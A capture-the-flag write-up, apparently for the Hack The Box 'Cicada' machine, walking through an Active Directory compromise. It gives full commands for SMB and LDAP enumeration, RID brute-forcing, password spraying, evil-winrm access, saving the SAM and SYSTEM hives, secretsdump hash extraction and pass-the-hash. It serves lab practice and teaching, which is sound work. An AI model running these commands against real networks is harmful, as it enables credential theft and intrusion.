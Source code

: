 # 1. Nmap: 
-> I always want to start here to see what ports are open and what services are running.

Lets start with a basic scan and see what we can find:
`sudo nmap -sV -sC 10.10.11.35 -oN nmap.basic`

When that scan is done I want to do a deeper scan and run that while I do other tasks.

`sudo nmap -p- -sV -sC --script=default,vuln,exploit -T4 -oN nmap.full 10.10.11.35`

Some output from the scan:
![[Pasted image 20250614145106.png]]

## What we can gather:
1. Domain name: cicada.htb
2. Kerberos is being used
3. SMB/LDAP in use (lets enumerate)

## What to try?
1. Null session on SMB?
	1. `rpcclient -U "" -N <target_ip> `
		1. ^^ nothing here either
2. Null session on LDAP?
	1. `ldapsearch -x -H ldap://10.10.11.35:389 -b "dc=cicada,dc=htb" "(objectClass=user)"`
	2. ^^ Got nothing here
3. User enumeration with kerbrute?

## Enum4linux:
`enum4linux -a 10.10.11.35`

==Usernames:== administrator, guest, krbtgt, domain admins, root, bin

`Domain Name: CICADA
Domain Sid: S-1-5-21-917908876-1423158569-3159038727`

## Kerbrute:
Try to find some valid usernames

`kerbrute userenum -d cicada.htb --dc 10.10.11.35 /usr/share/wordlists/statistically-likely-usernames/jsmith.txt -o valid_ad_users`

^^ Gave back nothing

## If we get a valid username and password we should use `ad-ldapdomaindump.py`

## smbclient:
`smbclient -L //10.10.11.35 -U "" 

Password for [WORKGROUP\]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        DEV             Disk      
        HR              Disk      
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.11.35 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
`

Above we see that there are non standard shares `DEV` and `HR`. How do we get to those?

==TRY:== `smbclient //10.10.11.35/HR -U ""`

-> When we list out files there is a file names "Notice from HR.txt". We can get that file. What is in it?

![[Pasted image 20250614151448.png]]

Looks like we have a password and a valid account!

`Cicada$M6Corpb*@Lp#nZp!8`

-> Let's use crackmapexec to validate these credentials.

	`sudo crackmapexec smb 10.10.11.35 -u cicada -p $M6Corpb*@Lp#nZp!8`

![[Pasted image 20250614151903.png]]
^^ These are valid creds! But how do we use them?


-> We should also go back and see if we can read anything from the `DEV` share <- No, we cannot list the `DEV` directory, but what else can we do? Can we try these creds with ==LDAP==?

`ldapsearch -x -H ldap://10.10.11.35 -D "CN=Cicada,...,DC=cicada,DC=htb" -w '$M6Corpb*@Lp#nZp!8' -b "dc=cicada,dc=htb" "(objectClass=*)"`

^^ Did not work -> Invalid credentials
`
![[Pasted image 20250614153335.png]]
^^ Windows server version

![[Pasted image 20250614153412.png]]

==What about== this ekjaovan user? Let's rerun the scan with that username. <- Returned the same stuff.

# To run impacket: (on my computer)
`python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py`

## Brute RIDs with netexec for user enumeration:
`netexec smb cicada.htb -u zaa -p --rid-brute`

Found users:
![[Pasted image 20250614165119.png]]

Lets see if any of these work.

![[Pasted image 20250614165508.png]]

It seems `michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8` works!
^^ Access denied with DEV share

#### No SPNs available:
`python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py cicada.htb/michael.wrightson:'Cicada$M6Corpb*@Lp#nZp!8' -dc-ip 10.10.11.35`
^^ Gets -> No entries found!

## User enumeration with netexec:
`netexec smb 10.10.11.35 -u michael.wrightson -p 'Cicada$M6Corpb*@Lp#nZp!8' --users`

![[Pasted image 20250614171424.png]]

It looks like a user left their password present!

`david.orelious:aRt$Lp#7t*VQ!3`
^^ This user has access to the DEV share!

```shell
python3 /usr/share/doc/python3-impacket/examples/smbclient.py cicada.htb/david.orelious:'aRt$Lp#7t*VQ!3'@10.10.11.35 -dc-ip 10.10.11.35
```

within DEV there is a file: 
![[Pasted image 20250614172325.png]]

Let's check this out and see what's in it.

![[Pasted image 20250614172424.png]]

More credentials!

emily.oscars:Q!3@Lp#M6b*7t*Vt

^^ No wmiexec :(

with these creds we can use smbclient again and list the ADMIN$ share (Got that info from enum4linux)

## evil-winrm:
`evil-winrm -i 10.10.11.35 -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt'`

This gets us the user.txt flag on the desktop.

The user has backup privileges, so we can dump the sam and system database to get the administrator hash. 

```shell
<on_target> reg save hklm\sam C:\tempel\sam
<on_target> reg save hklm\system C:\tempel\system

<attacker_machine> python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam1 -system system LOCAL

```


![[Pasted image 20250614184724.png]]

We can pass the hash with psexec and read the root hash


# Summary:
1. We were able to list a share that had a password, but no username
2. Using netexec with RID bruteforce we found valid users
3. Trying the found password with the users exposed that the michael.wrightson had reused the default password
4. this user could list users, exposing a password from the david.orelious user.
5. david.orelious could read the DEV share, that had a backup file
6. this backup file included creds for an administrator account
7. the administrator account had backup privileges on the machine, using evil-winrm we could backup the SAM and SYSTEM files and download them to our machine
8. Secretsdump.py was used to extract the hashes giving the administrator hash
9. this hash could be used with psexec in a pass the hash attack, allowing us to read the root.txt file. 

That's alot for an easy machine...